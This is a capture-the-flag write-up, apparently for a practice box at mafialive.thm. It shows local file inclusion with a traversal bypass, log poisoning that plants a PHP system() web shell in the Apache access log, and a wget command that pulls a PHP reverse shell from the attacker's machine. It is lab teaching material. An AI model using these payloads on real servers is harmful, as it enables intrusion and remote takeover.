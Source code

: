 </html>



### Log Poisoning

Looking at the base64 value decoded, I find that we are not allowed to use `../..` and we have to start our string with `/var/www/html/development_testing`. These are the only two conditions. A well known bypass for `../..` is to use a [double backslash](https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses) which we are allowed to do.

I test the double backslash to see if I can read /etc/passwd.


`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//etc/passwd`


(https://spy0x7.cf/assets/archangel/passwd.png)

I can now use this to search the box. Looking for SSH keys do not work and I can’t read any useful files, so I try log poisoning. First, I need to find where the logs are stored. Testing the default places, I find `/var/log/apache2/access.log` contains all logs for the HTTP server.


`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log`


(https://spy0x7.cf/assets/archangel/log.png)


Scrolling to the bottom of this log file, I see all of my requests through the LFI vulnerable.


`http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php?%3C?php%20system($_GET[%27c%27]);%20?%3E`

Refreshing access.log, I see my php code is now in the log file

(https://spy0x7.cf/assets/archangel/php.png)


I can now test command execution

`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=whoami`


(https://spy0x7.cf/assets/archangel/www.png)


Since I can execute commands, I can upload files. Using a [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) I can upload this file and then navigate to it. I setup up a python HTTP Server on my local machine then use wget to upload the file


`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=wget 10.2.8.75/php-reverse-shell.php`


It was uploaded correctly, now I need to see where it is exactly. Running a pwd command, I see it is under the home folder of `mafialive.thm`

